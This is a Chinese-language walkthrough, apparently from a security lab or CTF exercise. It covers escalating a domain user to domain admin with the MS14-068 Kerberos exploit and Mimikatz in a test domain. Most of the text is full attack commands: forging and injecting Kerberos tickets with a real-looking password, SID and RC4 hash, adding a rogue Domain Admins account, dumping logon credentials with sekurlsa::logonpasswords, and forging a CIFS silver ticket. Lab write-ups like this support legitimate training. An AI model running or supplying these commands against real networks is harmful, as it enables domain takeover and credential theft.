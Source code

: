 ![](http://upload-images.jianshu.io/upload_images/18786052-e2389512139b4ab0.png)

上传 mimikatz 和 MS14-068 提权工具，`whoami /user`或者`whoami/all`查看 devuser 用户的 suid：

![](http://upload-images.jianshu.io/upload_images/18786052-cd301e1fceb9965c.png)

使用 MS14-068 伪造票据：  
执行命令：`MS14-068.exe -u Hellen@cyberpeace.com -p Hellen1818 -s S-1-5-21-2718660907-658632824-2072795563-1110 -d DomainControl.cyberpeace.com`，会在当前目录下生成一个凭证。

使用方法：

`ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址`

使用 mimikatz 清空之前缓存的凭证，导入伪造的凭证：

```
mimikatz # kerberos::purge  //清空票据
mimikatz # kerberos::ptc 票据文件地址


```

![](http://upload-images.jianshu.io/upload_images/18786052-fee6151cfd053533.png)

再输入`dir \\scene.cyberpeace.com\c$`，发现访问成功，现在我们有域管的权限:

![](http://upload-images.jianshu.io/upload_images/18786052-cda3c9dcd2af5652.png)

添加域管用户 ccc：

```
net user ccc Qwe1234/add /domain
net group "Domain Admins" cccc /add /domain


```

![](http://upload-images.jianshu.io/upload_images/18786052-24ceb1bac81e5607.png)

#### 二、伪造银票

登录上面创建的域管用户，用管理员权限打开 CMD，cd 到 mimikatz 存放的目录，去执行 mimikatz 的命令，得到 SID 和 NTLM，

`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt`

![](http://upload-images.jianshu.io/upload_images/18786052-2a7557bef795ea2b.png)

把 HASH 文件保存到本地，在重新登录到域内机器的本地账户，将 hash 文件和 mimikatz 复制进去：  
先使用 mimikatz 清空票据，再导入伪造的票据, 具体伪造票据的命令:

```
kerberos::golden /domain:cyberpeace.com /sid:S-1-5-21-2718660907-658632824-2072795563 /target:scene.cyberpeace.com /service:cifs /rc4:9a68826fdc2811f20d1f73a471ad7b9a /user:test /ptt


```
